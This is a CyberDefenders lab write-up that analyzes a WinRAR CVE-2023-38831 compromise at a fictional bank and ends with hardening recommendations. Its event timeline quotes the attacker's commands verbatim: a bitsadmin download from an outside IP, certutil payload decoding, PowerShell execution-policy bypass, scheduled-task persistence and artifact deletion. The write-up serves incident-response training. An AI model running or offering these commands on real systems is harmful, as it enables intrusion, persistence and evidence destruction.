


# Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

# CVE-2023-38831 Detail:
RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831

## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled task  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Deleted the scheduled task  \whoisthebaba
<pre>
del c:\Windows\system32\Tasks\whoisthebaba
</pre>
9. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
10. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>

## Recommendations:

In this given scenario, I would recommend FinTrust Bank consider the following security improvements:

# Remove PowerShell and Command Prompt access for users who do not need to utilize its functionality for their job.

Priority: High

PowerShell and Command Prompt are powerful tools that are native to the Windows environment. These tools can be used by bad actors to perform activities that will not raise any red flags. Consider removing access to these tools for users who do not need them. This will hamper attackers' capabilities, cause harm, or perform reconnaissance on the system, forcing them to need to use different more noisier tactics. 

# Remove local administrator rights where applicable and practice the principle of least privilege.

Priority: High

The principle of least privilege is the practice of limiting the rights of an account to only the permissions needed to perform its function. Removing the local administrator account when applicable would restrict any abnormal behavior. This means if a host is compromised, the actions the attacker can perform are more limited.

# Verify all software is using the newest release when applicable.

Priority: High

Maintaining up-to-date software on assets is critical to prevent the execution of known vulnerabilities. Ensure that a proper software management program is in use to ensure your host's software is using the latest, most secure version.
